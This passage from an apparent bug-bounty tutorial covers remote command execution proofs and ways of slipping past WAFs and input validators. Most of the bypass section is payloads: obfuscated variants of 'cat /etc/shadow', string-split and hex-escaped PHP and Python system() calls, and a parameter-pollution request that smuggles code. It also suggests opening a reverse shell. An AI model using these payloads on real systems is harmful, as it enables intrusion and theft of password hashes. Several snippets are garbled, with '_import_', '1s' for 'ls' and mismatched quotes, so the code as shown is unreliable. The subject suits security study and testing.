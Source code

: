 While doing classical RCE just create PoC by doing whoami or ls. Or you can create file which contains your name: 
``touch rce_by_TurtleBB

While doing blind RCE create PoC that does sleep command. Or you can create reverse shell to be perceived more seriously.

### **Bypassing protection**
Many hosts started using WAFs or validations of data. But there are also ways of bypassing those.
For example in Unix command you can put ' " without changing behavior of command. You can also use wildcards to substitute for arbitrary characters, because system might be blocking certain Strings.  Finally, any empty command substitution results can be inserted into the string without changing the results. For example, the following commands will all print the contents of /etc/shadow:
```
cat /etc/shadow 
cat "/e"tc'/shadow' 
cat /etc/sh*dow 
cat /etc/sha** dow 
cat /etc/sha$()dow 
cat /etc/sha${}dow
```

You can try and change ways of writing same command in PHP.
For example:
``system('cat /etc/shadow')
Can be written as:
```
('sys'.'tem')('cat /etc/shadow');
system/**/('1s');
"\x73\X79\x73\x74\x65\x6d'('1s");
_import_('os').system('cat /etc/shadow') 
_import_('o'+'s').system('cat /etc/shadow')
_import_('\x6f\x73').system('cat /etc/shadow')
```

Sometimes servers allow concatanation of same parameter by including it many times in same http request:

```
GET /calculator?calc="_import_('os').sy"&calc="stem('ls')"
Host: example.com
```

There are many ways of escaping WAFs and validators. Using hexadecimal code, using lower and uppercases, inputting special characters like zero bytes or new lines or escape chars (\). You can also try putting other chars then ASCII.



``

